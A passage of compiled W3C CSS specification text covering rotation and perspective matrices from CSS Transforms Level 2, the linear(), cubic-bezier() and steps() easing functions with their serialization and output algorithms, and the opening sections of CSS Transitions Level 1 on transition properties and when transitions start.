  $$\begin{bmatrix} 1 - 2 \cdot (y^2 + z^2) \cdot sq & 2 \cdot (x \cdot y \cdot sq - z \cdot sc) & 2 \cdot (x \cdot z \cdot sq + y \cdot sc) & 0 \\ 2 \cdot (x \cdot y \cdot sq + z \cdot sc) & 1 - 2 \cdot (x^2 + z^2) \cdot sq & 2 \cdot (y \cdot z \cdot sq - x \cdot sc) & 0 \\ 2 \cdot (x \cdot z \cdot sq - y \cdot sc) & 2 \cdot (y \cdot z \cdot sq + x \cdot sc) & 1 - 2 \cdot (x^2 + y^2) \cdot sq & 0 \\ 0 & 0 & 0 & 1 \end{bmatrix}$$

  where:

  $$sc = \sin (\alpha/2) \cdot \cos (\alpha/2)$$ $$sq = \sin^2 (\alpha/2)$$

  and where x, y, and z have been normalized (that is, where the x, y, and z values given have been divided by the square root of the sum of their squares).

  > **Note:** that this means that a rotation around the X axis simplifies to:
  >
  > $$\begin{bmatrix} 1 & 0 & 0 & 0 \\ 0 & 1 - 2 \cdot sq & -2 \cdot sc & 0 \\ 0 & 2 \cdot sc & 1 - 2 \cdot sq & 0 \\ 0 & 0 & 0 & 1 \end{bmatrix}$$
  >
  > a rotation around the Y axis simplifies to:
  >
  > $$\begin{bmatrix} 1 - 2 \cdot sq & 0 & 2 \cdot sc & 0 \\ 0 & 1 & 0 & 0 \\ -2 \cdot sc & 0 & 1 - 2 \cdot sq & 0 \\ 0 & 0 & 0 & 1 \end{bmatrix}$$
  >
  > and a rotation around the Z axis simplifies to:
  >
  > $$\begin{bmatrix} 1 - 2 \cdot sq & -2 \cdot sc & 0 & 0 \\ 2 \cdot sc & 1 - 2 \cdot sq & 0 & 0 \\ 0 & 0 & 1 & 0 \\ 0 & 0 & 0 & 1 \end{bmatrix}$$
- A perspective projection matrix with the parameter *d* is equivalent to the matrix:

  $$\begin{bmatrix} 1 & 0 & 0 & 0 \\ 0 & 1 & 0 & 0 \\ 0 & 0 & 1 & 0 \\ 0 & 0 & -1/d & 1 \end{bmatrix}$$

  If the parameter *d* is `none` it is treated as infinity (and the resulting matrix is the identity matrix).

### 17. The SVG `transform` Attribute {#css-transforms-2:svg-transform}

This specification will also introduce the new presentation attributes `transform-origin`, `perspective`, `perspective-origin`, `transform-style` and `backface-visibility`.

Values on new introduced presentation attributes get parsed following the syntax rules on SVG Data Types [SVG11].

### 18. SVG Animation {#css-transforms-2:svg-animation}

#### 18.1. The `animate` and `set` element {#css-transforms-2:svg-animate-element}

The introduce presentation attributes `perspective`, `perspective-origin`, `transform-style` and `backface-visibility` are animatable. `transform-style` and `backface-visibility` are non-additive.

### 19. More Issues {#css-transforms-2:more-issues}

> **Issue:** Per [https://lists.w3.org/Archives/Public/www-style/2015Mar/0371.html](https://lists.w3.org/Archives/Public/www-style/2015Mar/0371.html), the WG resolved to add a formula for decomposing a transform into a unified "scale" (the spec already defines how to decompose it into scaleX/Y/Z), for use by things like SVG’s non-scaling stroke spec. [Formula is defined here.](https://www.w3.org/Graphics/SVG/WG/wiki/Proposals/Specifying_decomposition_of_scale)

---

## CSS Easing Functions Module Level 2 {#css-easing-2}

- **Shortname:** `css-easing-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-easing/](https://drafts.csswg.org/css-easing/)
- **Published TR:** [https://www.w3.org/TR/css-easing-2/](https://www.w3.org/TR/css-easing-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-02-23

### 1. Introduction {#css-easing-2:introduction}

*This section is not normative.*

It is often desirable to control the rate at which some value changes. For example, gradually increasing the speed at which an element moves can give the element a sense of weight as it appears to gather momentum. This can be used to produce intuitive user interface elements or convincing cartoon props that behave like their physical counterparts. Alternatively, it is sometimes desirable for animation to move forwards in distinct steps such as a segmented wheel that rotates such that the segments always appear in the same position.

Similarly, controlling the rate of change of gradient interpolation can be used to produce different visual effects such as suggesting a concave or convex surface, or producing a striped effect.

Easing functions provide a means to transform such values by taking an input progress value and producing a corresponding transformed output progress value.


Example of an easing function that produces an ease-in effect.  Given an input progress of 0.7, the easing function scales the value to produce an output progress of 0.52.  Applying this easing function to an animation would cause it to progress more slowly at first but then gradually progress more quickly.

#### 1.1.  Value Definitions {#css-easing-2:values}

This specification uses the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

### 2. Easing functions {#css-easing-2:easing-functions}

An **easing function** takes an input progress value and produces an output progress value.

An easing function must be a pure function meaning that for a given set of inputs, it always produces the same output progress value.

The **input progress value** is a real number in the range [-∞, ∞]. Typically, the input progress value is in the range [0, 1] but this may not be the case when easing functions are chained together.

> **Note:** An example of when easing functions are chained together occurs in Web Animations [WEB-ANIMATIONS] where the output of the easing function specified on an animation effect may become the input to an easing function specified on one of the keyframes of a keyframe effect. In this scenario, the input to the easing function on the keyframe effect may be outside the range [0, 1].

The **output progress value** is a real number in the range [-∞, ∞].

> **Note:** While CSS numbers have a theoretically infinite range (see [CSS Values 4 § 5.1 Range Restrictions and Range Definition Notation](#css-values-4:numeric-ranges)) UAs will automatically clamp enormous numbers to a reasonable range. If easing functions are used outside of the CSS context, care must be taken to either correctly handle potential infinities (including those produced by merely *very large* values stored in a floating point number), or clamp the output progress value.

Some types of easing functions also take an additional boolean **before flag**, which indicates the easing has not yet started, or is going in reverse and is past the finish. (Some easing functions can have multiple possible output progress values for a given input progress value, and generally favor the last one specified; this flag instead causes those easing functions to favor the first specified value before the animation has started.)

This specification defines several types of easing functions:

```css
<easing-function> = <linear-easing-function>
                  | <cubic-bezier-easing-function>
                  | <step-easing-function>
```

#### 2.1.  Linear Easing Functions: `linear`, `linear()` {#css-easing-2:the-linear-easing-function}

A **linear easing function** is an easing function that interpolates linearly between its control points. Each **control point** is a pair of numbers, associating an input progress value to an output progress value.


`linear(0, .1 25%, .75 50%, 1)`  The shape of the curve follows the control points.  Input progress values serve as *x* values of the curve, whilst the *y* values are the output progress values.

A linear easing function has the following syntax:

```css
<linear-easing-function> = linear | <linear()>
linear() = linear( [ <number> && <percentage>{0,2} ]# )
```

**`linear`**

: Equivalent to `linear(0, 1)`

**`linear()`**

: Specifies a linear easing function.

  Each comma-separated argument specifies one or two control points, with an input progress value equal to the specified `<percentage>` (converted to a `<number>` between 0 and 1), and an output progress value equal to the specified <number>. When the argument has two <percentage>s, it defines two control points in the specified order, one per <percentage>.

  If an argument lacks a `<percentage>`, its input progress value is initially empty. This is corrected at used value time by linear() canonicalization.

To **canonicalize a linear()** function’s control points, perform the following:

1. If the first control point lacks an input progress value, set its input progress value to 0.
2. If the last control point lacks an input progress value, set its input progress value to 1.
3. If any control point has an input progress value that is less than the input progress value of any preceding control point, set its input progress value to the largest input progress value of any preceding control point.
4. If any control point still lacks an input progress value, then for each contiguous run of such control points, set their input progress values so that they are evenly spaced between the preceding and following control points with input progress values.

After canonicalization, every control point has an input progress value, and the input progress values are monotonically non-decreasing along the list.

> **Note:** Serialization relies on whether or not an input progress value was originally supplied, so that information should be retained in the internal representation. It does not rely on whether a pair of control points were specified as two percentages on a single argument or as separate arguments.

##### 2.1.1.  Serializing {#css-easing-2:linear-easing-function-serializing}

The `linear` keyword is serialized as itself.

To **serialize a linear() function**:

1. Let *s* be the string "linear(".
2. Serialize each control point of the function, concatenate the results using the separator ", ", and append the result to *s*.
3. Append ")" to *s*, and return it.

To **serialize a linear() control point**:

1. Let *s* be the serialization, as a `<number>`, of the control point’s output progress value.
2. If the control point originally lacked an input progress value, return *s*.
3. Otherwise, append " " (U+0020 SPACE) to *s*, then serialize the control point’s input progress value as a `<percentage>` and append it to *s*.
4. Return *s*.

> **Example:** When serialized, control points originally specified with two input progress values are turned into two separate control points, and the input progress values are in strictly ascending order. For example:
>
> - `linear(0, 0.25, 1)` serializes as `linear(0, 0.25, 1)`
> - `linear(0 20%, 0.5 10%, 1)` serializes as `linear(0 20%, 0.5 20%, 1)`
> - `linear(0, 0.25 25% 75%, 1)` serializes as `linear(0, 0.25 25%, 0.25 75%, 1)`

##### 2.1.2.  Output {#css-easing-2:linear-easing-function-output}

To **calculate linear easing output progress** for a given linear easing function *func*, an input progress value *inputProgress*, and an optional before flag (defaulting to false), perform the following. It returns an output progress value.

1. Let *points* be *func*’s control points.
2. If *points* holds only a single item, return the output progress value of that item.
3. If *inputProgress* matches the input progress value of the first point in *points*, and the before flag is true, return the first point’s output progress value.
4. If *inputProgress* matches the input progress value of at least one point in *points*, return the output progress value of the last such point.
5. Otherwise, find two control points in *points*, *A* and *B*, which will be used for interpolation:

  1. If *inputProgress* is smaller than any input progress value in *points*, let *A* and *B* be the first two items in *points*. If *A* and *B* have the same input progress value, return *A*’s output progress value.
  2. Otherwise, if *inputProgress* is larger than any input progress value in *points*, let *A* and *B* be the last two items in *points*. If *A* and *B* have the same input progress value, return *B*’s output progress value.
  3. Otherwise, let *A* be the last control point whose input progress value is smaller than *inputProgress*, and let *B* be the first control point whose input progress value is larger than *inputProgress*.
6. Linearly interpolate (or extrapolate) *inputProgress* along the line defined by *A* and *B*, and return the result.

##### 2.1.3.  Examples {#css-easing-2:linear-easing-function-examples}

> **Example:** `linear()` allows the definition of easing functions that interpolate linearly between a set of points.
>
> For example, `linear(0, 0.25, 1)` produces an easing function that moves linearly from 0, to 0.25, then to 1:
>
> 
>
> | Easing | Example |
> | --- | --- |
> | `linear` |  |
> | `linear(0, .25, 1)` |  |
>
> An example of the above, with a plain `linear` for contrast.

> **Example:** By default, values are spread evenly between entries that don’t have an explicit "input". Input values can be provided using a `<percentage>`.
>
> For example, `linear(0, 0.25 75%, 1)` produces the following easing function, which spends 75% of the time transitioning from `0` to `.25`, then the last 25% transitioning from `.25` to `1`:
>
> 
>
> | Easing | Example |
> | --- | --- |
> | `linear` |  |
> | `linear(0, .25 75%, 1)` |  |
>
> An example of the above, with a plain `linear` for contrast.

> **Example:** If two input values are provided for a single output, it results in two points with the same output, causing the easing to "pause" between the two inputs.
>
> For example, `linear(0, 0.25 25% 75%, 1)` is equivalent to `linear(0, 0.25 25%, 0.25 75%, 1)`, producing the following easing function:
>
> 
>
> | Easing | Example |
> | --- | --- |
> | `linear` |  |
> | `linear(0, 0.25 25% 75%, 1)` |  |
>
> An example of the above, with a plain `linear` for contrast.

> **Example:** If the input is outside the range provided, the trajectory of the nearest two points is continued.
>
> For example, here are the implicit values from the previous function:
>
> 

> **Example:** A typical use of `linear()` is to provide many points to create the illusion of a curve.
>
> For example, here’s how `linear()` could be used to create a reusable "bounce" easing function:
>
> ```css
> :root {
>   --bounce: linear(
>     /* Start to 1st bounce */
>     0, 0.063, 0.25, 0.563, 1 36.4%,
>     /* 1st to 2nd bounce */
>     0.812, 0.75, 0.813, 1 72.7%,
>     /* 2nd to 3rd bounce */
>     0.953, 0.938, 0.953, 1 90.9%,
>     /* 3rd bounce to end */
>     0.984, 1 100% 100%
>   );
> }
>
> .example {
>   animation-timing-function: var(--bounce);
> }
> ```
>
> The definition ends `1 100% 100%` to create two final points, so inputs greater than 1 always output 1.
>
> 
>
> | Easing | Example |
> | --- | --- |
> | `linear` |  |
> | `linear(...)` |  |
>
> An example of the above, with a plain `linear` for contrast.
>
> More points could be used to create a smoother result, which may be needed for slower animations.

#### 2.2.  Cubic Bézier Easing Functions: `ease`, `ease-in`, `ease-out`, `ease-in-out`, `cubic-bezier()` {#css-easing-2:cubic-bezier-easing-functions}

A **cubic Bézier easing function** is an easing function that interpolates smoothly from 0 to 1 using a cubic polynomial, influenced by two control points that the curve will approach but (usually) not actually reach. (The "endpoints" of the cubic Bézier are fixed at (0,0) and (1,1), respectively.)


A cubic Bézier curve used as an easing function.  The shape of the curve is determined by the location of the control points *P1* and *P2*.  Input progress values serve as *x* values of the curve, whilst the *y* values are the output progress values.

A cubic Bézier easing function has the following syntax:

```css
<cubic-bezier-easing-function> =
  ease | ease-in | ease-out | ease-in-out | <cubic-bezier()>

cubic-bezier() = cubic-bezier( [ <number [0,1]>, <number> ]#{2} )
```

The meaning of each value is as follows:

****ease-in****

: A function that starts slowly and smoothly, then quickly approaches the endpoint with an almost linear curve. Equivalent to `cubic-bezier(0.42, 0, 1, 1)`.

****ease-out****

: A function that starts quickly with an almost linear curve, then slowly and smoothly approaches the endpoint. Equivalent to `cubic-bezier(0, 0, 0.58, 1)`.

****ease-in-out****

: A function that starts and ends slowly and smoothly, quickly traversing the middle part. Equivalent to `cubic-bezier(0.42, 0, 0.58, 1)`.

****ease****

: Similar to `ease-in-out`, but with a quicker start and a slower finish. Equivalent to `cubic-bezier(0.25, 0.1, 0.25, 1)`.

**`cubic-bezier( x1, y1, x2, y2 )`**

: Specifies a cubic Bézier easing function. The *x1* and *y1* arguments specify the first control point, and *x2* and *y2* arguments specify the second control point.

  Both *x* values must be in the range [0, 1] or the definition is invalid.

  > **Note:** Details on cubic Bézier curves
  >
  > Note that this does *not* use the input progress value as the "t" value commonly used to parametrize cubic Bézier curves (producing a 2d point as the output), but rather uses it as the "x" value on the graph (producing a y value as the output). This means that only the *shape* of the curve matters, not the velocity along that curve. For example, `cubic-bezier(0, 0, 0, 0)` and `cubic-bezier(1, 1, 1, 1)` produce exactly the same (linear) easing, despite the first’s *velocity* following a `t3` curve, while the second follows a `t1/3` curve.
  >
  > *In general*, cubic Bézier curves can have loops: places where a single x value is associated with multiple y values. The restriction placed on the control points (that their x values be in the [0,1] range) prevent this, so the resulting easing function is well-defined.

The keyword values listed above are illustrated below.


The easing functions produced by each of the cubic Bézier easing function keyword values.

| Easing | Example |
| --- | --- |
| `linear` |  |
| `ease-in` |  |
| `ease-out` |  |
| `ease-in-out` |  |
| `ease` |  |

The above easing functions in action, each applied to a 3s animation of the circles' `left` property. A `linear` easing is provided for contrast.

##### 2.2.1.  Serializing {#css-easing-2:bezier-serialization}

The `ease-in`, `ease-out`, `ease-in-out`, and `ease` keywords serialize as themselves.

To **serialize a cubic-bezier() function**:

1. Let *s* be the string "cubic-bezier(".
2. Serialize the function’s four arguments as `<number>`s, concatenate the results using the separator ", ", and append the result to *s*.
3. Append ")" to *s*, and return it.

##### 2.2.2.  Output {#css-easing-2:cubic-bezier-algo}

To **calculate cubic Bézier easing output progress** for a given cubic Bézier easing function *func* and an input progress value *inputProgress*, perform the following. It returns an output progress value.

1. Let *p0* be the point (0,0), *p1* be the point given by *func*’s first two arguments, *p2* be the point given by *func*’s second two arguments, and *p3* be the point (1,1).
2. If *inputProgress* is within the range [0,1] (inclusive), return the y value corresponding to *inputProgress* as an x value for the cubic Bézier curve defined as having *p0* and *p3* as endpoints, and *p1* and *p2* as control points.

   The evaluation of this curve is covered in many sources, such as [FUND-COMP-GRAPHICS].
3. Otherwise, the curve is extended infinitely, using the tangent of the curve at the endpoints. This tangent is defined as the line between two points, *t1* and *t2*.

  - If *inputProgress* is less than 0, let *t1* be *p0*.

    1. If the x value of *p1* is greater than 0, let *t2* be *p1*.
    2. Otherwise, if the x value of *p2* is greater than 0, let *t2* be *p2*.
    3. Otherwise, return 0.
  - If *inputProgress* is greater than 1, let *t2* be *p3*.

    1. If the x value of *p2* is less than 1, let *t1* be *p2*.
    2. Otherwise, if the x value of *p1* is less than 1, let *t1* be *p1*.
    3. Otherwise, return 1.

   Return the y value corresponding to *inputProgress* as an x value for the line passing through *t1* and *t2*.

#### 2.3.  Step Easing Functions: `step-start`, `step-end`, `steps()` {#css-easing-2:step-easing-functions}

A **step easing function** is an easing function that divides the input time into a specified number of intervals that are equal in length, and holds the output steady within each of those intervals. It is defined by a number of **steps**, and a **step position**. It has the following syntax:

```css
<step-easing-function> = step-start | step-end | <steps()>

steps() = steps( <integer>, <step-position>?)
<step-position> = jump-start | jump-end | jump-none | jump-both
              | start | end
```

The meaning of each value is as follows:

****step-start****

: Jumps from the starting to the ending value at the start of the easing interval.

  Computes to `steps(1, start)`

****step-end****

: Jumps from the starting to the ending value at the end of the easing interval.

  Computes to `steps(1, end)`

  

  Example step easing function keyword values.

**`steps( <integer>, <step-position>? )`**

: Divides the input interval into a number of equal steps specified by the `<integer>`. Within each interval, the output progress value is constant, and is determined according to the `<step-position>` keyword. If omitted, the <step-position> keyword defaults to `end`.

  If the `<step-position>` is `jump-none`, the `<integer>` must be at least 2, or the function is invalid. Otherwise, the <integer> must be at least 1, or the function is invalid.

  The `<step-position>` keywords are:

  ****jump-start****

  : The first interval has an output progress value of `1/steps`, and subsequent intervals rise by `1/steps`.

    (It "jumps at the start", with no step returning 0.)

  ****jump-end****

  : The first interval has an output progress value of `0`, and subsequent intervals rise by `1/steps`.

    (It "jumps at the end", with no step returning 1.)

  ****jump-none****

  : The first interval has an output progress value of `0`, and subsequent intervals rise by `1/(steps-1)`.

    (It "never jumps", with steps returning both 0 and 1.)

  ****jump-both****

  : The first interval has an output progress value of `1/(steps+1)`, and subsequent intervals rise by `1/(steps+1)`.

    (It "jumps at both ends", with no steps returning 0 or 1.)

  ****start****

  : Behaves as `jump-start`.

  ****end****

  : Behaves as `jump-end`.

The `jump-*` keywords values are illustrated below:


Example step easing functions.

| Easing | Example |
| --- | --- |
| `linear` |  |
| `steps(3, jump-start)` |  |
| `steps(3, jump-end)` |  |
| `steps(3, jump-none)` |  |
| `steps(3, jump-both)` |  |

The above easing functions in action, with a `linear` provided for comparison. Each `steps(3, ...)` function divides the animation into three constant periods; they differ only on what the value is within each period.

##### 2.3.1.  Serializing {#css-easing-2:steps-serialization}

Unlike the other easing function keywords, `step-start` and `step-end` *do not* serialize as themselves. Instead, they serialize as "steps(1, start)" and "steps(1)", respectively.

To **serialize a steps() functions**:

1. Let *s* be the string "steps(".
2. Serialize the function’s steps, and append it to *s*.
3. If the function’s step position is `end` or `jump-end`, append ")" to *s* and return *s*.
4. Otherwise, append ", " to *s*. Serialize the step position as a keyword, and append the result to *s*. Append ")" to *s*. Return *s*.

##### 2.3.2.  Output {#css-easing-2:step-easing-algo}

To **calculate step easing output progress** for a given step easing function *func*, an input progress value *inputProgress*, and an optional before flag (defaulting to false), perform the following. It returns an output progress value.

1. If the before flag is true, return 0.
2. Let *steps* be *func*’s steps, and *position* be *func*’s step position.
3. Divide the interval [-∞, ∞] into several segments, each with an associated value, as follows:

  1. [-∞, 0) has the value 0.
  2. [1, ∞] has the value 1.
  3. [0, 1) is divided into *steps* half-open intervals, [0, ...) to [..., 1) with their values assigned as defined for the *position* (see `<step-position>`).

   > **Note:** In other words, at the boundary between intervals, the associated value is the higher value.
4. Return the associated value for the interval that *inputProgress* is in.

---

## CSS Transitions Module Level 1 {#css-transitions-1}

- **Shortname:** `css-transitions-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-transitions/](https://drafts.csswg.org/css-transitions/)
- **Published TR:** [https://www.w3.org/TR/css-transitions-1/](https://www.w3.org/TR/css-transitions-1/)
- **W3C Status:** WD (refining)
- **Last Edited:** 2026-10-08

### 1. Introduction {#css-transitions-1:introduction}

*This section is not normative.*

This document introduces new CSS features to enable *implicit transitions*, which describe how CSS properties can be made to change smoothly from one value to another over a given duration.

#### 1.1. Value Definitions {#css-transitions-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Transitions {#css-transitions-1:transitions}

Normally when the value of a CSS property changes, the rendered result is instantly updated, with the affected elements immediately changing from the old property value to the new property value. This section describes a way to specify gradual transitions using new CSS properties. These properties are used to animate smoothly from the old state to the new state over time.

For example, suppose that transitions of one second have been defined on the `left` and `background-color` properties. The following diagram illustrates the effect of updating those properties on an element, in this case moving it to the right and changing the background from red to blue. This assumes other transition parameters still have their default values.


Transitions of `left` and `background-color`.

Transitions are a presentational effect. The computed value of a property transitions over time from the old value to the new value. Therefore if a script queries the computed value of a property (or other data depending on it) as it is transitioning, it will see an intermediate value that represents the current animated value of the property.

The transition for a property is defined using a number of new properties. For example:

> **Example:** (s):
>
> ```
> div {
>   transition-property: opacity;
>   transition-duration: 2s;
> }
> ```
>
> The above example defines a transition on the `opacity` property that, when a new value is assigned to it, will cause a smooth change between the old value and the new value over a period of two seconds.

Each of the transition properties accepts a comma-separated list, allowing multiple transitions to be defined, each acting on a different property. In this case, the individual transitions take their parameters from the same index in all the lists. For example:

> **Example:** (s):
>
> ```
> div {
>   transition-property: opacity, left;
>   transition-duration: 2s, 4s;
> }
> ```
>
> This will cause the `opacity` property to transition over a period of two seconds and the left property to transition over a period of four seconds.

In the case where the lists of values in transition properties do not have the same length, the length of the `transition-property` list determines the number of items in each list examined when starting transitions. The lists are matched up from the first value: excess values at the end are not used. If one of the other properties doesn’t have enough comma-separated values to match the number of values of `transition-property`, the user agent must calculate its used value by repeating the list of values until there are enough. This truncation or repetition does not affect the computed value.  Note: This is analogous to the behavior of the `background-*` properties, with `background-image` analogous to `transition-property`.

> **Example:** (s):
>
> ```
> div {
>   transition-property: opacity, left, top, width;
>   transition-duration: 2s, 1s;
> }
> ```
>
> The above example defines a transition on the `opacity` property of 2 seconds duration, a transition on the `left` property of 1 second duration, a transition on the `top` property of 2 seconds duration and a transition on the `width` property of 1 second duration.

While authors can use transitions to create dynamically changing content, dynamically changing content can lead to seizures in some users. For information on how to avoid content that can lead to seizures, see [Guideline 2.3: Seizures: Do not design content in a way that is known to cause seizures](https://www.w3.org/TR/WCAG20/#seizure) ([WCAG20]).

#### 2.1. The `transition-property` Property {#css-transitions-1:transition-property-property}

The `transition-property` property specifies the name of the CSS property to which the transition is applied.

| Field | Value |
| --- | --- |
| Name: | **transition-property** |
| [Value:](#css-values-4:value-defs) | none \| `<single-transition-property>`# |
| [Initial:](#css-cascade-6:initial-values) | all |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` else a list of identifiers |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-transition-property>** = `all` | `<custom-ident>`

A value of **none** means that no property will transition. Otherwise, a list of properties to be transitioned, or the keyword **all** which indicates that all properties are to be transitioned, is given.

If one of the identifiers listed is not a recognized property name, the implementation must still start transitions on the animatable properties in the list using the duration, delay, and timing function at their respective indices in the lists for `transition-duration`, `transition-delay`, and `transition-timing-function`. In other words, unrecognized properties must be kept in the list to preserve the matching of indices.

The `<custom-ident>` production in `<single-transition-property>` also excludes the keyword `none`, in addition to the keywords always excluded from <custom-ident>. This means that `none`, `inherit`, and `initial` are not permitted as items within a list of more that one identifier; any list that uses them is syntactically invalid.

For the keyword `all`, or if one of the identifiers listed is a shorthand property, implementations must start transitions for all its longhand sub-properties (or, for `all`, all properties), using the duration, delay, and timing function at the index corresponding to the shorthand.

If a property is specified multiple times in the value of `transition-property` (either on its own, via a shorthand that contains it, or via the `all` value), then the transition that starts uses the duration, delay, and timing function at the index corresponding to the *last* item in the value of `transition-property` that calls for animating that property.

> **Note:** The `all` value and `all` shorthand property work in similar ways, so the `all` value is just like a shorthand that covers all properties.

#### 2.2. The `transition-duration` Property {#css-transitions-1:transition-duration-property}

The `transition-duration` property defines the length of time that a transition takes.

| Field | Value |
| --- | --- |
| Name: | **transition-duration** |
| [Value:](#css-values-4:value-defs) | `<time [0s,∞]>`# |
| [Initial:](#css-cascade-6:initial-values) | `0s` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a duration |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

This property specifies how long the transition from the old value to the new value should take. By default the value is `0s`, meaning that the transition is immediate (i.e. there will be no animation). A negative value for `transition-duration` renders the declaration invalid.

#### 2.3. The `transition-timing-function` Property {#css-transitions-1:transition-timing-function-property}

The `transition-timing-function` property describes how the intermediate values used during a transition will be calculated. It allows for a transition to change speed over its duration. These effects are commonly called *easing* functions.

Timing functions are defined in the separate CSS Easing Functions module [css-easing-1]. The input progress value used is the percentage of the transition duration, and the output progress value is used as the *p* value when interpolating the property value (see [§ 4 Application of transitions](#css-transitions-1:application)).

| Field | Value |
| --- | --- |
| Name: | **transition-timing-function** |
| [Value:](#css-values-4:value-defs) | `<easing-function>`# |
| [Initial:](#css-cascade-6:initial-values) | `ease` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

#### 2.4. The `transition-delay` Property {#css-transitions-1:transition-delay-property}

The `transition-delay` property defines when the transition will start. It allows a transition to begin execution after some period of time from when it is applied. A `transition-delay` value of `0s` means the transition will execute as soon as the property is changed. Otherwise, the value specifies an offset from the moment the property is changed, and the transition will delay execution by that offset.

If the value for `transition-delay` is a negative time offset then the transition will execute the moment the property is changed, but will appear to have begun execution at the specified offset. That is, the transition will appear to begin part-way through its play cycle. In the case where a transition has implied starting values and a negative `transition-delay`, the starting values are taken from the moment the property is changed.

| Field | Value |
| --- | --- |
| Name: | **transition-delay** |
| [Value:](#css-values-4:value-defs) | `<time>`# |
| [Initial:](#css-cascade-6:initial-values) | `0s` |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a duration |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

#### 2.5. The `transition` Shorthand Property {#css-transitions-1:transition-shorthand-property}

The `transition` shorthand property combines the four properties described above into a single property.

| Field | Value |
| --- | --- |
| Name: | **transition** |
| [Value:](#css-values-4:value-defs) | `<single-transition>`# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | not animatable |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

**<single-transition>** = [ `none` | `<single-transition-property>` ] || `<time>` || `<easing-function>` || <time>

Note that order is important within the items in this property: the first value that can be parsed as a time is assigned to the transition-duration, and the second value that can be parsed as a time is assigned to transition-delay.

If there is more than one `<single-transition>` in the shorthand, and any of the transitions has `none` as the `<single-transition-property>`, then the declaration is invalid.

### 3. Starting of transitions {#css-transitions-1:starting}

Implementations must maintain a set of **running transitions**, each of which applies to a specific element and non-shorthand property. Each of these transitions also has a **start time**, **end time**, **start value**, **end value**, **reversing-adjusted start value**, and **reversing shortening factor**. Transitions are added to this set as described in this section, and are removed from this set when they complete or when implementations are required to **cancel** them.  For the rationale behind the reversing-adjusted start value and reversing shortening factor, see [§ 3.1 Faster reversing of interrupted transitions](#css-transitions-1:reversing).

Implementations must also maintain a set of **completed transitions**, each of which (like running transitions) applies to a specific element and non-shorthand property.  This specification maintains the invariant that there is never both a running transition and a completed transition for the same property and element.

If an element is no longer in the document, implementations must cancel any running transitions on it and remove transitions on it from the completed transitions.

> **Note:** This set of completed transitions needs to be maintained in order to prevent transitions from repeating themselves in certain cases, i.e., to maintain the invariant that this specification tries to maintain that unrelated style changes do not trigger transitions.
>
> > **Example:** An example where maintaining the set of completed transitions is necessary would be a transition on an inherited property, where the parent specifies a transition of that property for a longer duration (say, `transition: 4s text-indent`) and a child element that inherits the parent’s value specifies a transition of the same property for a shorter duration (say, `transition: 1s text-indent`). Without the maintenance of this set of completed transitions, implementations could start additional transitions on the child after the initial 1 second transition on the child completes.

Various things can cause the computed values of properties on an element to change. These include insertion and removal of elements from the document tree (which both changes whether those elements have computed values and can change the styles of other elements through selector matching), changes to the document tree that cause changes to which selectors match elements, changes to style sheets or style attributes, and other things. This specification does not define when computed values are updated, beyond saying that implementations must not use, present, or display something resulting from the CSS cascading, value computation, and inheritance process [CSS3CASCADE] without updating the computed value (which means merely that implementations cannot avoid meeting requirements of this specification by claiming not to have updated the computed value as part of handling a style change). However, when an implementation updates the computed value of a property on an element to reflect one of these changes, or computes the computed value of a property on an element newly added to the document, it must update the computed value for all properties and elements to reflect all of these changes at the same time (or at least it must be undetectable that it was done at a different time). This processing of a set of simultaneous style changes is called a **style change event**. (Implementations typically have a style change event to correspond with their desired screen refresh rate, and when up-to-date computed style or layout information is needed for a script API that depends on it.)

Since this specification does not define when a style change event occurs, and thus what changes to computed values are considered simultaneous, authors should be aware that changing any of the transition properties a small amount of time after making a change that might transition can result in behavior that varies between implementations, since the changes might be considered simultaneous in some implementations but not others.

